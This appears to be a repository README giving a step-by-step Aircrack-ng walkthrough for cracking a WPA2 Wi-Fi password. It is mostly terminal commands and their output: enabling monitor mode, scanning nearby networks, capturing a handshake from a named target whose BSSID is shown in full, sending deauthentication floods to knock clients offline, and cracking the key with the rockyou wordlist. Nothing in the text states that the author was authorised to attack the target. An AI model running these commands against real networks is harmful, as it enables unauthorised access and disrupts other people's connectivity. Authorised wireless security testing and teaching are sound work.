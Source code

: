 
* * *

## What is Aircrack-ng?

- Aircrack-ng is a suite of tools used to:
- Capture packets from Wi-Fi networks 🎯
- Crack WEP and WPA/WPA2 keys using captured data 🔓
- Test Wi-Fi security (monitoring, attacking, testing)

* * *

# To capture the WEP/WPA1/WPA2 handshake and crack the wi-fi password

## 1.converting the Wi-fi Adapter from managed to monitor (not all the wi-fi adapter support this)

```
┌──(admin㉿hexecutioners)-[~]
└─$ iwconfig
lo        no wireless extensions.

eth0      no wireless extensions.

docker0   no wireless extensions.

wlan0     IEEE 802.11  ESSID:**[hidden network name]** 
          Mode:Managed  Frequency:2.437 GHz  Access Point: **[hidden BSSID]**   
          Tx-Power=22 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=62/70  Signal level=-48 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:3  Invalid misc:14   Missed beacon:0
```

#### we need to change the Mode: Managed to Monitor

```
sudo airmon-ng start wlan0
```

```
┌──(admin㉿hexecutioners)-[~]
└─$ iwconfig                      
lo        no wireless extensions.

eth0      no wireless extensions.

docker0   no wireless extensions.

wlan0mon  IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```

#### Now the Mode changed to Monitor

## Now we are going to scan the wifi's and hotspots

```
sudo airodump-ng wlan0mon
```

```
  CH  8 ][ Elapsed: 0 s ][ 2025-08-06 12:01                                                                          
                                                                                                                    
 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID   
 C8:xx:xx:xx:xx:24  -88        0        0    0   6   65   WEP  WEP         HP-Print-24-LaserJet
 58:xx:xx:xx:xx:5B  -67        3        0    0   3  130   WPA2 CCMP   PSK  SREE                                     
 F6:xx:xx:xx:xx:4F  -47        7        0    0   6  130   WPA2 CCMP   PSK  DESKTOP-31GUN6C 0841  
 50:xx:xx:xx:xx:00  -58        2        0    0   6  260   WPA2 CCMP   PSK  MAX                                     
 1A:xx:xx:xx:xx:CB  -60        3        0    0   6   65   WPA2 CCMP   PSK  DIRECT-KIDESKTOP-0KVU8IQmsST             
 AA:xx:xx:xx:xx:D5  -11        3        0    0  11  180   WPA2 CCMP   PSK  realme 12x 5G   
```

## here my target is *DESKTOP-31GUN6C* and the BSSID F6:4E:E3:90:9D:4F

## command to capture the wpa handshake

```
sudo airodump-ng --bssid  F6:xx:xx:xx:xx:4F -c <channel number> -w capture  wlan0mon
```

```
 CH  6 ][ Elapsed: 4 mins ][ 2025-08-06 12:07 ][ WPA handshake: F6:xx:xx:xx:xx:4F                                   
                                                                                                                    
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                
                                                                                                                    
 F6:xx:xx:xx:xx:4F  -43 100     2563     1502    4   6  130   WPA2 CCMP   PSK  DESKTOP-31GUN6C 0841                 
                                                                                                                    
 BSSID              STATION            PWR    Rate    Lost   Frames  Notes  Probes                                  
                                                                                                                    
 F6:xx:xx:xx:xx:4F  AC:xx:xx:xx:xx:9C  -75    0 - 1      0      386                                                 
 F6:xx:xx:xx:xx:4F  D8:xx:xx:xx:xx:C6  -51   12e-24e   101      452  EAPOL                                          
 F6:xx:xx:xx:xx:4F  68:xx:xx:xx:xx:02  -49    1e- 1e     0      231  EAPOL                                          
 F6:xx:xx:xx:xx:4F  68:xx:xx:xx:xx:F8  -64    1e- 1e     0      219  EAPOL                                          
 F6:xx:xx:xx:xx:4F  14:xx:xx:xx:xx:CB  -51    1e- 6e     0     1281  EAPOL  DESKTOP-31GUN6C 0841  
```

### there you can see the hand shake F6:xx:xx:xx:xx:4F

### it is got deauthenticating a user if it is not deauthenticating then we can run a manual command on the other tab

```
sudo aireplay-ng --deauth 5 -a F6:xx:xx:xx:xx:4F wlan0mon

[sudo] password for balu: 
12:07:02  Waiting for beacon frame (BSSID: F6:xx:xx:xx:xx:4F) on channel 6
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
12:07:02  Sending DeAuth (code 7) to broadcast -- BSSID: [F6:xx:xx:xx:xx:4F]
12:07:02  Sending DeAuth (code 7) to broadcast -- BSSID: [F6:xx:xx:xx:xx:4F]
12:07:03  Sending DeAuth (code 7) to broadcast -- BSSID: [F6:xx:xx:xx:xx:4F]
12:07:03  Sending DeAuth (code 7) to broadcast -- BSSID: [F6:xx:xx:xx:xx:4F]
12:07:04  Sending DeAuth (code 7) to broadcast -- BSSID: [F6:xx:xx:xx:xx:4F]

```

### Then check you will get a handshake (not possible for wpa3)

## Now we need to crack the handshake using wordlist

```
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b F6:xx:xx:xx:xx:4F capture-01.cap
```

### then it check with all rockyou.txt file if it is not cracked then it means the password is not there in rockyou.txt

```
Reading packets, please wait...
Opening capture-01.cap
Resetting EAPOL Handshake decoder state.
Read 83449 packets.

1 potential targets
 
                           
                           
                           Aircrack-ng 1.7 

      [00:00:00] 2822/10303727 keys tested (6296.61 k/s) 

      Time left: 27 minutes, 15 seconds                          0.03%

                           KEY FOUND! [ ******** ] #password is hidden for the privacy issues


      Master Key     : 34 83 18 87 BB 17 D9 73 57 C0 F5 DC EC ED 7A 5D 
                       4C 1C 48 00 4F A0 0B E6 82 C6 9F 2E 66 68 A6 C7 

      Transient Key  : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : 50 4D DA 96 D9 E1 0F 91 76 D2 C5 3A C4 BF 12 C0 
```

## KEY FOUND! \[ \*\*\*\*\*\*\*\* \] -> it is the password

* * *

# Then coming back to the Managed

```
sudo airmon-ng stop wlan0mon
```

### if it is saying network manager is not running

```
sudo systemctl restart NetworkManager.service
```
